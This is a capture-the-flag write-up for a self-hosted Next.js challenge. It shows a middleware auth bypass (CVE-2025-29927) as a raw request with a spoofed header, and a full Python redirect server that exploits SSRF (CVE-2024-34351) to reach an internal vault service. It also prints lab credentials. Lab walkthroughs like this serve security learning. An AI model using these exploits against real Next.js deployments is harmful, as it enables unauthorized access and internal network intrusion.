







install `docker` and `docker-compose`

```sh
cd ./CTFs/04-2025/web/web2
```

then

```sh
sudo docker-compose up
```

then application should build and run on port 3000 locally



the 1st flag will be obtained by bypassing the auth using [CVE-2025-29927](https://vercel.com/blog/postmortem-on-next-js-middleware-bypass)

you could've guessed by provided `package.json` file in the description as a **free** hint:

```json
{
  "name": "vulnerable-app",
  "version": "0.1.0",
  "private": true,
  "scripts": {
    "dev": "next dev",
    "build": "next build",
    "start": "next start",
    "lint": "next lint"
  },
  "dependencies": {
    "@tailwindcss/typography": "^0.5.16",
    "bootstrap": "^5.3.3",
    "emoji-picker-react": "^4.12.2",
    "html2pdf.js": "^0.10.3",
    "jspdf": "^3.0.1",
    "next": "14.0.0",
    "react": "^18",
    "react-dom": "^18",
    "tailwindcss": "^4.0.15"
  },
  "devDependencies": {
    "@types/node": "^20",
    "@types/react": "^18",
    "@types/react-dom": "^18",
    "eslint": "^8",
    "eslint-config-next": "14.0.0",
    "typescript": "^5"
  }
}
```

Next js version as follows:

```json
...
"next": "14.0.0"
...
```

you can use this PoC: https://github.com/MuhammadWaseem29/CVE-2025-29927-POC

```http
GET /dashboard HTTP/1.1
Host: 192.168.0.85:3000
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
```



to bypass the auth and get access to the dashboard, click the "GETFLAG 1" button

---

## FLAG2

To get the 2nd flag you should reach the internal host `http://vault-app:8001`

There are two ways to know internal IP of that vault-app:
1. Scan the default subnet of docker containers by brute-forcing IP addresses
2. Get the hint for 100 points — in the hint I was shared `docker-compose.yml`:

```yml
version: '3.8'

networks:
  vault_net:
    driver: bridge
    ipam:
      config:
        - subnet: 172.30.0.0/24

services:
  next-app:
    build:
      context: ./next-app
    container_name: next-app
    ports:
      - "3000:3000"
    depends_on:
      - vault-app
    networks:
      vault_net:
        ipv4_address: 172.30.0.20
    command: >
      sh -c "npm install &&
             npm run build &&
             npm start"

  vault-app:
    build:
      context: ./vault-internal
      dockerfile: Dockerfile
    container_name: vault-app
    env_file:
      - ./vault-internal/.vault.env
    networks:
      vault_net:
        ipv4_address: 172.30.0.10
```

Vault-app has IP `172.30.0.10`  
and port is `8001`

---

Here is the overall scenario:



---

Explore how vault-app works (source can be downloaded with "Download" button)

Authentication with:

```
Authorization-Internal: Basic <base64>
```

Credentials provided were:

```
coder:Employee@2025
```

Base64 encoded:

```
Authorization-Internal: Basic Y29kZXI6RW1wbG95ZWVAMjAyNQ==
```

---

## Exploit (CVE-2024-34351)

Python redirector server:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse
import json

class SimpleHandler(BaseHTTPRequestHandler):
    def do_HEAD(self):
        self.send_response(200)
        self.send_header('Content-Type', 'text/x-component')
        self.end_headers()

    def do_GET(self):
        ssrf = self.headers.get('ssrf', 'http://172.30.0.10:8001')
        
        log_data = {
            'url': self.path,
            'method': self.command,
            'ssrf': ssrf
        }
        print("Request received: " + json.dumps(log_data))
        print(f"Redirecting to: {ssrf}")

        self.send_response(302)
        self.send_header('Location', ssrf)
        self.end_headers()

def run(server_class=HTTPServer, handler_class=SimpleHandler, port=8000):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print(f'Listening on port {port}...')
    httpd.serve_forever()

if __name__ == '__main__':
    run()
```

---

Attack scenario:



Prepare your attacker server with public/private IP (since app is local)



SSRF is triggered by Next.js action (click "Internal" button)

Set headers:

```
Host: <attacker-IP>
Origin: http://<attacker-IP>
```

See response coming from vault-app here:



And get FLAG2:


